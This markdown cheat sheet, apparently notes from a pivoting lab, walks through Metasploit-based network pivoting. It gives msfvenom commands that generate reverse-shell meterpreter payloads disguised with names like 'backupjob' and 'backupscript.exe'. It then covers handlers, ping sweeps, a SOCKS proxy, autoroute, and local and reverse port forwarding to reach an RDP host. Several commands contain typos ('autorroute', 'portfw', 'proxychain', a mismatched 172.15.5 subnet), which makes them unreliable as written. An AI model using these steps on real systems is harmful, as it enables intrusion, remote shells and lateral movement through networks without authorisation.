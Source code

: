 - Create Payload for $PIVOT_HOST
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ATTACKER -f elf -o backupjob LPORT=8080
```

- Create multi/handler
```bash
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
run
```

- Execute the payload on $PIVOT_HOST
- Once the meterpreter session is created, we can run ping_sweep
```bash
run post/multi/gather/ping_sweep RHOSTS=$PIVOT_HOST_IP_RANGE
```

- Ping Sweep using commands
```shell
# Linux
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

# CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

# PowerShell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

- Configure MSF's SOCKS proxy
```bash
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run

# confirm proxy is running
jobs
```

- Adding a line to proxychains.conf if needed
```bash
socks4a 127.0.0.1 9050
```

We need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

- Create Routes with AutoRoute
```bash
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run

# Inside meterpreter session
run autoroute -s 172.16.5.0/23
```

- List active routes with AutoRoute
```bash
# Inside meterpreter
run autorroute -p
```

- Test Proxy & routing Functionality
```bash
proxychain nmap $TARGET_IP -p3389 -sT -v -Pn
```

-------------------
### PORT FORWARDING
------
- We can use portfw inside meterpreter
```bash
help portfwd
```

- Create Local TCP Relay
```bash
portfwd add -l 3300 -p 3389 -r $TARGET_IP
-l: start a listner on attacker's port (3300)
-r: forwards all connections to the remote target on port 3389 via  Meterpreter session
```

- Connect to Windows Target
```bash
# Attacker
xfreerdp /v: /u: /p:
```

-----
### METERPRETER REVERSE PORT FORWARDING
----
- Reverse Port Forwarding Rules
```bash
# Meterpreter
portfw add -R -l 8081 -p 1234 -L $ATTACKER
-R: Indicate reverse port forwarding
-l: attacker's litening port (8081)
-p: PIVOT HOST's port from which all connections will be forwarded to attackers
```

- Set up multi/handler
```bash
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run
```

We can now create a reverse shell payload that will send a connection back to our PIVOT server on `172.16.5.129`:`1234` when executed on our Windows host. Once our PIVOT server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

- Generate Windows Payload
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```